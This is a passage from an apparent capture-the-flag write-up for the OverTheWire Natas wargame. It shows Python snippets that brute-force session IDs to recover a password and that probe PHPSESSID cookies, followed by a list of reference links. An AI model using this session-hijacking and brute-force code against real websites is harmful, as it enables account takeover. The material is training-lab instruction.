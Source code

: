 ```python
    PAYLOAD = ({'debug': '1', 'username': 'user', 'password': 'pass'})
    MAXID = 640

    brute_force_password(AUTH, URL, PAYLOAD, MAXID)
```

After a few minutes, we get our password.



















### Level 19: Hijacking Session ID II



This level looks exactly like the previous except that it has the following message:

> This page uses mostly the same code as the previous level, but session IDs are no longer sequential...

![cyber](http://i.imgur.com/OQ7LATt.png)


This time we have no access to the source code to see how the session IDs are created. However, we have access to the values in the cookie which are created by the session.

We write the following snippet:

```python
HEADER ={'Cookie':'PHPSESSID=' + str(i)}
r = requests.post(URL, auth=AUTH, params=PAYLOAD, headers=HEADER)
print(i)
print(HEADER[1])
```

This produces the following output:

```
0
{'PHPSESSID': '3236312d75736572'}
1
{'PHPSESSID': '3136372d75736572'}
2
{'PHPSESSID': '3534342d75736572'}
3
{'PHPSESSID': '3238352d75736572'}
4
{'PHPSESSID': '3334332d75736572'}
(...)
```


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]:  http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits